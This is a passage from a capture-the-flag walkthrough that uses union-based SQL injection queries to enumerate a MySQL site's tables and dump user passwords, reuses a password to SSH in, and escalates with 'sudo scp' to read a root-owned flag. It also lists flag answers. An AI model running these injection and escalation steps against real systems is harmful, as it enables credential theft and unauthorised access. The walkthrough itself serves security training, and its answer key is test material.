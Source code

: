 ```sql
select null, null, null, count(*), null
from information_schema.tables
```

This reveals that there are 282 tables managed by this MySQL instance (ouch!). But how many tables are in the `park` database (which is what's serving up this site)?

```sql
select null, null, null, count(*), null
from information_schema.tables
where table_schema = "park"
```

Only two. That seems much better. I wonder what they are?

```sql
select null, null, null, table_name, null
from information_schema.tables
where table_schema = "park"
limit 0, 1
```

So we have two tables, `items` and `users`. Let's see what the columns of the `users` table are.

```sql
select null, null, null, column_name, null
from information_schema.columns
where table_schema = "park"
	and table_name = "users"
limit 0, 1
```

So, the columns are `id`, `username`, and `password`. Nice. Let's dig into that table.

```sql
select null, null, null, password, null
from park.users
limit 0, 1
```

Unfortunately, trying to include the `username` column triggers the annoying error, so all we can retrieve are two passwords, `D0nt3ATM3` and `ih8dinos`. Just for grins (and clued in by the structure of the flag questions), let's see if we can SSH into the box as either of these using the user `dennis`.

The second works for this purpose, and the first flag is right in `dennis`' home directory.

FLAG 4: What is dennis' password? — `ih8dinos`

FLAG 5: Locate and get the first flag contents. — `b89f2d69c56b9981ac92dd267f`

Poking around a bit, `sudo -l` reveals that `dennis` can use `scp` via `sudo`, and the `test.sh` file implies that there's a `/root/flag5.txt` file. Since `scp` works like `cp` for local copies, we can grab this.

```bash
sudo scp /root/flag5.txt .
cat flag5.txt
```
